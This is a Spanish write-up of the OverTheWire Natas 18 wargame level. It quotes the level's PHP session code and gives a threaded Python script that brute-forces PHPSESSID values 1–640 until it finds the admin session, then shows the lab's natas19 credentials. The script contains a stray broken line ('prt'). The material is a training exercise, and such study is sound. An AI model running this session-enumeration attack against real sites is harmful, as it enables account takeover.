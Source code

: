 # Natas 18

#### URL: natas18.natas.labs.overthewire.org
#### Credenciales: natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ

Vemos que si la sesion tiene la propiedad "admin" con valor 1 entonces es una sesion de administrador:

``` php
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
```

La sesion se almacena en una cookie cuyo valor es un numero entre 1 y 640:

``` php
$maxid = 640; // 640 should be enough for everyone

function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */

function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
```

Probamos con la cookie con valor en este rango de valores hasta encontrar la del administrador
``` python
from base64 import b64encode
import requests
import threading

URL="http://natas18.natas.labs.overthewire.org/index.php"
lastQuery=""

def tryID(n):
    global lastQuery
    headers = {'Authorization': f'Basic {b64encode(b'natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ').decode()}', 'Cookie':f'PHPSESSID={n}'}
    data = 'username=admin&password=admin'
    x = requests.post(URL,data=data,headers=headers)
    prt
    if "You are logged in as a regular user" not in x.text:
        print(f"Admin PHPSESSION ID: {n}")
    lastQuery=x.text

for i in range(1,640+1):
    t = threading.Thread(target=tryID,args=(i,))
    t.start()
```    

``` python 
python3 script.py
Admin PHPSESSION ID: 119
```

Nos cambiamos la cookie de sesion y obtenemos las credenciales:

![2025-03-20-181317_1364x329_scrot](https://github.com/user-attachments/assets/4f8e762a-9ffa-4f57-8249-04e7975051a9)

`natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr`

PD: No esperes a que terminen todos los hilos, paralo una vez encuentre la ID correcta.







